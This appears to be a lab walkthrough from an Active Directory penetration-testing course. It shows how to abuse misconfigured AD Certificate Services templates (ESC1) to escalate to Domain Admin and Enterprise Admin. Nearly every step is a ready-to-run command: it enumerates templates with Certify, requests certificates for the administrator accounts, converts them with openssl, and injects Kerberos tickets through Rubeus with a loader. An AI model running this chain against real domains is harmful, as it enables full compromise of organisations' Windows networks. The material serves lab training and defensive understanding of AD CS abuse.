 # 🪜 Find vulnerable templates w/ AD CS  to escalate to DA and EA

We can start by using the Certify tool to check for AD CS in moneycorp ->

```
C:\AD\Tools\Certify.exe cas
```

<figure><img src="../../.gitbook/assets/image (1161).png" alt=""><figcaption></figcaption></figure>

We can list all the templates using the following command. Going through the output we can find some interesting templates:

```
C:\AD\Tools\Certify.exe find
```

<figure><img src="../../.gitbook/assets/image (1162).png" alt=""><figcaption></figcaption></figure>

```
[snip]
CA Name : mcorp-dc.moneycorp.local\moneycorpMCORP-DC-CA
 Template Name : SmartCardEnrollment-Agent    
 Schema Version : 2
 Validity Period : 10 years
 Renewal Period : 6 weeks
 msPKI-Certificates-Name-Flag : SUBJECT_ALT_REQUIRE_UPN,
SUBJECT_REQUIRE_DIRECTORY_PATH
 mspki-enrollment-flag : AUTO_ENROLLMENT
 Authorized Signatures Required : 0
pkiextendedkeyusage : Certificate Request Agent     
 mspki-certificate-application-policy : Certificate Request Agent
 Permissions
 Enrollment Permissions
 Enrollment Rights : dcorp\Domain Users S-1-5-21-719815819-3726368948-3917688648-513    
[snip]
Template Name : HTTPSCertificates     
 Schema Version : 2
 Validity Period : 1 year
 Renewal Period : 6 weeks 
msPKI-Certificates-Name-Flag : ENROLLEE_SUPPLIES_SUBJECT
[snip]
```

Now that we have the templates that we find interesting, we can try out for Privilege Escalation to DA and EA using ESC1

The template HTTPSCertificates looks interesting. Let's get some more information about it as it allows requestor to supply subject name:

<figure><img src="../../.gitbook/assets/image (1163).png" alt=""><figcaption><p>S-1-5-21-719815819-3726368948-3917688648-1123</p></figcaption></figure>

```
C:\AD\Tools\Certify.exe find /enrolleeSuppliesSubject
```

what this means is that the HTTPSCertificates template grants enrollment rights to RDPUsers group and allows requestor to supply Subject Name. Recall that student613 is a member of RDPUsers group. This means that we can request certificate for any user as student613.

Now we can try to request a certificate for Domain Admin - Administrator:

```
C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:administrator
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now let's Copy all the text between -----BEGIN RSA PRIVATE KEY----- and -----END CERTIFICATE----- and save it to esc1.pem:

```
notepad C:\AD\Tools\esc1.pem
```

<figure><img src="../../.gitbook/assets/image (1165).png" alt=""><figcaption></figcaption></figure>

We need to convert it to PFX to use it. Use openssl binary on the student VM to do that. I will use SecretPass@123 as the export password ->

```
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc1.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc1-DA.pfx 
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Let's start by encoding "asktgt"

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:administrator /certificate:esc1-DA.pfx /password:SecretPass@123 /ptt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we can check if we actually have DA privileges:

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can use similar method to escalate to Enterprise Admin privileges. Request a certificate for Enterprise Administrator - Administrator

```
C:\AD\Tools\Certify.exe request /ca:mcorp-dc.moneycorp.local\moneycorp-MCORP-DC-CA /template:"HTTPSCertificates" /altname:moneycorp.local\administrator
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Save the certificate to esc1-EA.pem and convert it to PFX. I will use SecretPass@123 as the export password:

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
C:\AD\Tools\openssl\openssl.exe pkcs12 -in C:\AD\Tools\esc1-EA.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out C:\AD\Tools\esc1-EA.pfx   
```

Encode asktgt and run the follwing command ->

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:moneycorp.local\Administrator /dc:mcorp-dc.moneycorp.local /certificate:esc1-EA.pfx /password:SecretPass@123 /ptt
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And check for EA privileges ->

```
winrs -r:mcorp-dc cmd /c  set username
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Need to go back on this process later on
{% endhint %}

Now let's try Privilege Escalation to DA and EA using ESC3
